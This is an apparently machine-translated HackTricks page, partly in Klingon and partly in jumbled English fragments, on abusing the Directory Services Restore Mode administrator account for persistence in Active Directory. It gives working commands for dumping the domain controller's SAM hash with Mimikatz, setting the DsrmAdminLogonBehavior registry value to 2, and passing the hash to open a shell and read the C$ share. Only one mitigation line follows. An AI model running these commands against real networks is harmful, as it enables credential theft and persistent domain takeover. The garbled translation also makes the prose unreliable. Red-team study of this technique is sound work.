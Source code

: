 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>qaStaHvIS</strong> <strong>AWStaHvIS</strong> <strong>hacktricks.xyz</strong> <strong>training</strong> <strong>Daq</strong> <strong>puS</strong> <strong>!</strong></summary>

<strong>HackTricks</strong> <strong>poH</strong> <strong>support</strong> <strong>ways</strong>:

* <strong>HackTricks</strong> <strong>advertised</strong> <strong>company</strong> <strong>company</strong> <strong>download</strong> <strong>HackTricks</strong> <strong>PDF</strong> <strong>Check</strong> <strong>SUBSCRIPTION PLANS</strong> <strong>ghop</strong> <strong>https://github.com/sponsors/carlospolop</strong>!
* <strong>PEASS</strong> <strong>HackTricks</strong> <strong>swag</strong> <strong>official</strong> <strong>Get</strong> <strong>https://peass.creator-spring.com</strong>
* <strong>PEASS Family</strong> <strong>Discover</strong> <strong>NFTs</strong> <strong>exclusive</strong> <strong>collection</strong> <strong>https://opensea.io/collection/the-peass-family</strong>
* <strong>Join</strong> 💬 <strong>Discord group</strong> <strong>https://discord.gg/hRep4RUj7f</strong> <strong>telegram group</strong> <strong>https://t.me/peass</strong> <strong>follow</strong> 🐦 <strong>Twitter</strong> <strong>@carlospolopm</strong> <strong>https://twitter.com/hacktricks_live</strong>.
* <strong>Share</strong> <strong>hacking tricks</strong> <strong>submitting</strong> <strong>PRs</strong> <strong>HackTricks</strong> <strong>HackTricks Cloud</strong> <strong>github repos</strong> <strong>https://github.com/carlospolop/hacktricks</strong> <strong>https://github.com/carlospolop/hacktricks-cloud</strong>.

</details>


# DSRM Credentials

**DC** <strong>local administrator</strong> <strong>account</strong> <strong>inside</strong> <strong>each</strong> <strong>exists</strong>. **Admin privileges** <strong>machine</strong> <strong>use</strong> <strong>mimikatz</strong> <strong>dump</strong> <strong>local Administrator hash</strong>. **Registry modification** <strong>activate</strong> <strong>password</strong> <strong>remotely access</strong> <strong>local Administrator user</strong>.\
**DC** <strong>inside</strong> <strong>local Administrator</strong> <strong>user</strong> <strong>hash</strong> <strong>dump</strong> <strong>need</strong> <strong>First</strong>:
```bash
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
**ghItlhvam** vaj **'e'** vItlhutlh. 'ej registry key **"0"** vaj **ghaH** 'e' vItlhutlh, **"2"** vItlhutlh.
```bash
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior #Check if the key exists and get the value
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD #Create key with value "2" if it doesn't exist
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  #Change value to "2"
```
**DaH, PTH vItlhutlh C$ content vItlhutlh 'ej shell jabbogh.** Qapvam, PTH vItlhutlhDaq vItlhutlh hash vIleghlaHghach (PTH) vItlhutlh 'ej **"domain" vItlhutlhDaq 'oH DC machine name Hoch.**
```bash
sekurlsa::pth /domain:dc-host-name /user:Administrator /ntlm:b629ad5753f4c441e3af31c97fad8973 /run:powershell.exe
#And in new spawned powershell you now can access via NTLM the content of C$
ls \\dc-host-name\C$
```
More info about this in: [https://adsecurity.org/?p=1714](https://adsecurity.org/?p=1714) and [https://adsecurity.org/?p=1785](https://adsecurity.org/?p=1785)

## Mitigation

* Event ID 4657 - Audit creation/change of `HKLM:\System\CurrentControlSet\Control\Lsa DsrmAdminLogonBehavior`


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
